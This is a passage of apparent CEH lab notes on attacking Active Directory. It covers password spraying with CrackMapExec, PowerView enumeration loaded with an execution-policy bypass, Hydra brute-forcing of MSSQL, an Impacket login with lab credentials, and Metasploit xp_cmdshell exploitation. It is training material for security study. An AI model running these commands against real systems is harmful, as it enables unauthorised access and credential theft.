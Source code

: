 #### Task 3: Spray Cracked Password into Network using CrackMapExec

CrackMapExec can spray a cracked password across services to identify reused credentials.

- Example for RDP:
  - `cme rdp 10.10.1.0/24 -u /root/ADtools/users.txt -p "cupcake"`
    - `rdp`: Targets the Remote Desktop Protocol (RDP) service.
    - `10.10.1.0/24`: IP address range to target, encompassing all hosts within the subnet 10.10.1.0 with a subnet mask of 255.255.255.0.
    - `-u /root/ADtools/users.txt`: Specifies the path to the file containing user accounts for authentication.
    - `-p "cupcake"`: Password which we cracked using AS-REP Roasting to test against the RDP service on the specified hosts.
- If successful, we find accounts reusing the cracked password (e.g., **Mark** on host **10.10.1.40**).

#### Task 4: Perform Post-Enumeration using PowerView

PowerView is a PowerShell tool for AD enumeration.

- Load the script:
  - `powershell -EP Bypass`
  - `Import-Module .\PowerView.ps1`
- Examples:
  - `Get-NetComputer`
  - `Get-NetGroup`
  - `Get-NetUser``
- Other useful commands:
- `Get-NetOU` - Lists all organizational units.  
- `Get-NetSession` - Lists active sessions.  
- `Get-NetLoggedon` - Shows logged-on users.  
- `Get-NetProcess` - Lists running processes.  
- `Get-NetService` - Lists services.  
- `Get-NetDomainTrust` - Lists trust relationships.  
- `Get-ObjectACL` - Retrieves ACLs.  
- `Find-InterestingDomainAcl` - Finds interesting ACLs.  
- `Get-NetSPN` - Lists SPNs.  
- `Invoke-ShareFinder` - Finds shared folders.  
- `Invoke-UserHunter` - Finds where admins are logged in.  
- `Invoke-CheckLocalAdminAccess` - Checks local admin rights.  

#### Task 5: Perform Attack on MSSQL Service

**xp_cmdshell** in SQL Server can allow arbitrary command execution if misconfigured.

- Bruteforce MSSQL login:
  - `hydra -L user.txt -P /root/ADtools/rockyou.txt 10.10.1.30 mssql`
- Login with Impacket:
  - `python3 /root/impacket/examples/mssqlclient.py CEH.com/SQL_srv:batman@10.10.1.30 -port 1433`
- Check if `xp_cmdshell` is enabled:
  - `SELECT name, CONVERT(INT, ISNULL(value, value_in_use)) AS IsConfigured FROM sys.configurations WHERE name='xp_cmdshell';`
- Exploit with Metasploit:
  - `use exploit/windows/mssql/mssql_payload`
  - `set RHOST 10.10.1.30`
  - `set USERNAME SQL_srv`
  - `set PASSWORD batman`
  - `set DATABASE master`
 